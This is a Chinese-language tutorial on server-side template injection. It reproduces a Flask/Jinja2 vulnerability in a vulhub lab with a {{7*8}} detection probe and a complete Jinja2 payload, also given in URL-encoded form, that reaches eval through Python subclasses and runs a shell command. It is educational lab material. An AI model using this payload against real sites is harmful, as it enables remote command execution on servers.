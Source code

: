 ```yaml
---
title: SSTI
date: 2021-03-29 19:25:59
author: sec
---
```

@[TOC](目录)
# SSTI是什么？
ssti(服务器端模板注入 Server-Side Template Injection)。
SSTI就是后端无条件相信前端传过来的代码，导致用户输入的一些恶意代码被执行。
常见的SSTI是python所搭建的网站模板引擎。比如：jinja2 mako tornado django。

# 一、简单的SSTI
来看一段SSTI的代码
```python
$output = $twig->render("Hello {{name}}", array("name" => $_GET["name"])); 
echo $output;
```
这是一个简单的SSTI一般后有SSTI的过滤。

# 二、flask
ctf中比较常见的还是python站的SSTI，下面用vulhub上的一个环境来复现Flask的SSTI漏洞，展示一下流程

## 1）docker环境搭建
```python
docker-compose up -d 
```
## 2）注入检测
访问http://192.168.1.10:8000/
传参?name={{7*8}}，可以得到：
![在这里插入图片描述](img/20210329191602372.png)
说明存在SSTI漏洞
## 3）漏洞利用
```python
{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('__import__("os").popen("id").read()') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}
```
把上面这一串当做name参数传递即可实现命令执行：
```python
http://192.168.1.10:8000/?name={%%20for%20c%20in%20[].__class__.__base__.__subclasses__()%20%}%20{%%20if%20c.__name__%20==%20%27catch_warnings%27%20%}%20{%%20for%20b%20in%20c.__init__.__globals__.values()%20%}%20{%%20if%20b.__class__%20==%20{}.__class__%20%}%20{%%20if%20%27eval%27%20in%20b.keys()%20%}%20{{%20b[%27eval%27](%27__import__(%22os%22).popen(%22id%22).read()%27)%20}}%20{%%20endif%20%}%20{%%20endif%20%}%20{%%20endfor%20%}%20{%%20endif%20%}%20{%%20endfor%20%}
```
结果如下：
![在这里插入图片描述](img/20210329191732793.png)看到id命令成功执行
